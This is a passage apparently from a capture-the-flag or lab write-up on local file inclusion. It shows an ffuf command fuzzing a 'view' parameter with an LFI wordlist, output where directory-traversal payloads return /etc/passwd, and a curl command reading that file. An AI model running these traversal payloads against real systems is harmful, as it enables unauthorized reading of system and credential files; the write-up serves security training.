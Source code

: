 So, our parameter is `view`, let's fuzz using the LFI wordlist:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.55.155:35676/index.php?view=FUZZ' -fs 1935
```

We can see this:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.55.155:35676/index.php?view=FUZZ' -fs 1935

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://94.237.55.155:35676/index.php?view=FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 40
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter : Response size: 1935
________________________________________________

../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 250ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 254ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 255ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 263ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 340ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 340ms]
```

If we try that:

```
curl -s "http://94.237.55.155:35676/index.php?view=../../../../../../../../../../../../../../../../../../../etc/passwd"
```
